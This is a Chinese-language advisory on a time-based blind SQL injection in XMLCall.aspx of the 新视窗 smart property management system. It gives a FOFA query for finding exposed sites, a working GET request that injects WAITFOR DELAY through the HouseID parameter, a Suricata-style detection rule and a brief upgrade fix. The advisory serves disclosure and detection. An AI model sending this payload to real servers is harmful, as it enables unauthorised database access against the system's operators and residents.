

# 新视窗智慧物业管理系统XMLCall存在SQL注入漏洞

新视窗智慧物业管理系统XMLCall存在SQL注入漏洞

# 影响版本

目前已发布版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   **body=&quot;BPMSite/ClientSupport/OCXInstall.aspx&quot;**

**POC/EXP：**

**step1**  延时注入

```
GET /BPMSite/Forms/XMLCall.aspx?CallFunc=GetComplaintsCountByHouseID&HouseID=1;WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"新视窗智慧物业管理系统 - XMLCall.aspx HouseID SQL注入漏洞 (WAITFOR DELAY时间盲注)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/BPMSite/Forms/XMLCall.aspx"; fast_pattern;
        content:"HouseID="; nocase; distance:0;
        content:"WAITFOR"; nocase; distance:0; within:50;
        content:"DELAY"; nocase; distance:0; within:20;
    metadata:
        service http,
        affected_product "新视窗智慧物业管理系统",
        vulnerability_type "SQL Injection (Time-based blind)",
        severity "high";
    classtype:web-application-attack;
    sid:1000809;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
